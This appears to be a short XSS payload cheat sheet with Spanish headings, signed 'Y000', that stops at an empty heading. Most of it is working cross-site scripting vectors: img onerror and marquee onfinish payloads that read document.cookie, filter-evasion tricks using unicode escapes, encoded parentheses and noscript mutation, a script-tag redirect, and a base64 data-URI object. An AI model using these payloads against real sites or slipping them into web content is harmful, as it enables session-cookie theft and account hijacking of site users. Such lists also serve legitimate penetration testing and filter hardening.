 `<marquee><form><button formacti\u006fn=javascript&colon;pr\u006fmpt('xss_by_Y000!')>_Y000!_</marquee>`



### Img + Onerror

`<Img src="/" =_=" title=" onerror='prompt(document.cookie)'">`


### marcas


```
<marquee direction="down" width="250" height="200" behavior="alternate" style="border:solid">
  <marquee behavior="alternate">
    Xss by Y000
  </marquee>
 <marquee behavior="alternate">
    Y000
  </marquee>
</marquee>
```


### Marquee + alert

`<marquee loop=1 width=0 onfinish=pr\u006fmpt(document.cookie)>Y000</marquee>`



### onload / onfocus

```
"onfocus="alert('Y000')"+autofocus="

</script><!--><svg onload=[document.domain].find%26%2340;alert%26rpar;>

"><svg/onload=alert`${'000'}¥000!.was.here$`>

```

### noscript

`<noscript><p title="</noscript><img src=x onerror=alert(1)>">`


### redirección 

`"><script>document.location="http://google.com";</script>`


### JavaScript

`<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydGBZMDAwYDwvc2NyaXB0Pg=='></object>`

### document.write + iframe
